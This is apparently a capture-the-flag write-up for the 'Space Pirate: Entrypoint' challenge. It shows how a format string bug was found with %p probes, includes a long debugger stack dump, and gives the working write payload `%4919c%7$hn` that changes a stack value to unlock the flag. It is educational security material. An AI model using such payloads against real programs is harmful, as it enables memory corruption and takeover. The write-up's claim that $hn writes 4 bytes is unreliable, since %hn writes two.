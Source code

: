 # Space Pirate:Entrypoint

### Challenge: PWN

### Tools: Ghidra, Pwndbg

### Vulnerability: Format String

This challenge is in the form of a format string  vulnerability. Since I had never used one I followed these links for a very good run down on a format string attack.

https://kevinalmansa.github.io/application%20security/Format-Strings

https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b

Below is the main function where our vulnerability sits. The check_pass function has no actual vulnerability.




We can see that local 48 = 0xdeadbeef but if local_48 = 0xdead1337 then it will open_door which is the function that prints our flag. So our goal is to change the value of 0xdeadbeef to 0xdead1337.
Now the way I actually figured out there was a format string vulnerability was by putting in different % commands to see if anything happened and luckily I found that %p was printing addresses. %s and %n will cause a segmentation fault.




By inputting a couple of %p we can see that the address 0xdeadbeef is at offset 6 and input data is put into offset 7. Anything after becomes arbitrary.

{
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x007ffff7af2031  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x1f              
$rsp   : 0x007fffffffdce0  →  0x00000000deadbeef
$rbp   : 0x007fffffffdd20  →  0x00555555400e20  →  <__libc_csu_init+0> push r15
$rsi   : 0x007fffffffdcf0  →  "%p %p %p %p %p %p %p %p %p %p\n"
$rdi   : 0x00555555402658  →  "\nYour card is: "
$rip   : 0x00555555400d84  →  <main+142> call 0x5555554008a0 <printf@plt>
$r8    : 0x47              
$r9    : 0x0               
$r10   : 0x007ffff7b80bc0  →  0x0002000200020002
$r11   : 0x246             
$r12   : 0x00555555400940  →  <_start+0> xor ebp, ebp
$r13   : 0x007fffffffde00  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
─────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdce0│+0x0000: 0x00000000deadbeef     ← $rsp
0x007fffffffdce8│+0x0008: 0x007fffffffdce0  →  0x00000000deadbeef
0x007fffffffdcf0│+0x0010: "%p %p %p %p %p %p %p %p %p %p\n"      ← $rsi
0x007fffffffdcf8│+0x0018: " %p %p %p %p %p %p %p\n"
0x007fffffffdd00│+0x0020: "p %p %p %p %p\n"
0x007fffffffdd08│+0x0028: 0x000a7025207025 ("%p %p\n"?)
0x007fffffffdd10│+0x0030: 0x007fffffffde00  →  0x0000000000000001
0x007fffffffdd18│+0x0038: 0x10674ff2d0c4b300
───────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555400d73 <main+125>       call   0x5555554008c0 <read@plt>
   0x555555400d78 <main+130>       lea    rdi, [rip+0x18d9]        # 0x555555402658
   0x555555400d7f <main+137>       mov    eax, 0x0
 → 0x555555400d84 <main+142>       call   0x5555554008a0 <printf@plt>
   ↳  0x5555554008a0 <printf@plt+0>   jmp    QWORD PTR [rip+0x2026ea]        # 0x555555602f90 <printf@got.plt>
      0x5555554008a6 <printf@plt+6>   push   0x4
      0x5555554008ab <printf@plt+11>  jmp    0x555555400850
      0x5555554008b0 <alarm@plt+0>    jmp    QWORD PTR [rip+0x2026e2]        # 0x555555602f98 <alarm@got.plt>
      0x5555554008b6 <alarm@plt+6>    push   0x5
      0x5555554008bb <alarm@plt+11>   jmp    0x555555400850
───────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x00555555402658 → "\nYour card is: ",
   $rsi = 0x007fffffffdcf0 → "%p %p %p %p %p %p %p %p %p %p\n",
   $rdx = 0x0000000000001f
)
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "sp_entrypoint", stopped 0x555555400d84 in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555400d84 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────
Python Exception <class 'AttributeError'> partially initialized module 'pwndbg' has no attribute 'commands' (most likely due to a circular import): 
gef➤  x50x $rsp
Undefined command: "x50x".  Try "help".
gef➤  x/50x $rsp
0x7fffffffdce0: 0xdeadbeef      0x00000000      0xffffdce0      0x00007fff
0x7fffffffdcf0: 0x25207025      0x70252070      0x20702520      0x25207025
0x7fffffffdd00: 0x70252070      0x20702520      0x25207025      0x00000a70
0x7fffffffdd10: 0xffffde00      0x00007fff      0xd0c4b300      0x10674ff2
0x7fffffffdd20: 0x55400e20      0x00005555      0xf7a03c87      0x00007fff
0x7fffffffdd30: 0x00000001      0x00000000      0xffffde08      0x00007fff
0x7fffffffdd40: 0x00008000      0x00000001      0x55400cf6      0x00005555
0x7fffffffdd50: 0x00000000      0x00000000      0xd40bc83c      0x088c5f78
0x7fffffffdd60: 0x55400940      0x00005555      0xffffde00      0x00007fff
0x7fffffffdd70: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdd80: 0x722bc83c      0x5dd90a07      0xb035c83c      0x5dd91ab8
0x7fffffffdd90: 0x00000000      0x00007fff      0x00000000      0x00000000
0x7fffffffdda0: 0x00000000      0x00000000
gef➤
}
 

So now that we know where we need to point the format string attack we can set up the command. Also we only need to change the last 2 bytes for the attack

Command = `%4919c%7$hn`	
	- 1337=4919(last 4 of dead1337 from hex) 
  - c= prints character
  - %7=the offset we are placing the $hn 
  - $hn=writes 4 bytes to the target pointer.






With that we have our flag!

When I first started out I think I was diving too deep and trying scripts like `“dead1337””\x20\xdf\xff\xff””%7$n”` to print the flag but eventually realized this challenge was simpler than that.

